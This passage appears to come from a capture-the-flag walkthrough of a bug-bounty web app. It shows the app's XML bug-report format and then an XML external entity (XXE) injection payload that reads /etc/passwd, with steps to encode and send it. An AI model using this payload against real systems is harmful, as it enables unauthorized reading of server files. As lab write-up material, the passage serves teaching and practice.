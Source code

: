 The decoded `data`.   

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

The data is sent over `xml`. We may do an attack called `XML entity injection`.   

`Payload`:   

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&xxe;test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

We will define a new `entity` that will grab the `/etc/passwd` file and display it on the screen.   

`Encode` the payload the same way and send it over the request.   

<br/> 
<img src="/img/bountyhunter_screenhots/Pasted image 20241108225526.png" alt="1" style="width:700px; height:auto;">
<br/>
